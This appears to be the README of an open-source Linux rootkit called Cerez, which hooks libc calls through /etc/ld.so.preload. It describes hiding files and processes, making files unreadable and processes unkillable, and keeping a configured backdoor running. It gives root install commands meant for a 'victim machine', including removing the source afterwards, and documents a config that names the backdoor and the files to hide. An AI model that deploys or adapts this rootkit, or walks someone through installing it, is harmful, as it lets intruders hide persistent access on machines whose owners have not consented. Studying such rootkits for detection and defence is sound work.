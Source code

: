 <h1 align="center">
  <img src="assets/banner.png"/>  
  <br>
  Cerez 😈 A simple LD_PRELOAD rootkit
</h1>

Cerez is a configurable `LD_PRELOAD` rootkit, by installing it 
into `/etc/ld.so.preload`, you can preload it before every binary.
It can protect/hide your backdoor as well other files you want 
hidden. It does so by overwriting syscalls like `open`, `write`
and others.

## Features
- ✔ Hides files in the file system 
- ✔ Hides proceses in the process list 
- ❌ Hides connections in the network list
- ✔ Makes files unreadable 
- ✔ Makes files unwriteable 
- ✔ Makes processes unkillable 

## Install 
### You will need to install `build-essential` to compile!
You can install it with `apt` on debian systems:
```bash
apt update && apt install build-essential
```
To install the rootkit on a victim machine run the following
as **ROOT**:
```bash
git clone https://github.com/ngn13/cerez.git && cd cerez
make && make install
cd .. && rm -rf cerez
```
Don't forget to edit `cerez.cfg` before install!

## Config `(/etc/cerez.cfg)`
```
backdoor:/usr/bin/backdoor     --> backdoor that will be started by the rootkit
whitelist:/usr/bin/backdoor    --> rootkit won't hide/protect stuff from this 
output:1                       --> if set to 1, cerez will hide any console output that contains hidden file names
/etc/cerez.cfg                 --> rest is just the list of the files that will be hidden
./cerez.cfg
...
```

## Resources
To learn more about LD_PRELOAD rootkits, I highly recommend you read [this
article](https://compilepeace.medium.com/memory-malware-part-0x2-writing-userland-rootkits-via-ld-preload-30121c8343d5).
I also left some comments in the [loader.c](loader.c) so you can go ahead and read it.
You can also create an issue/PR if you are interested.
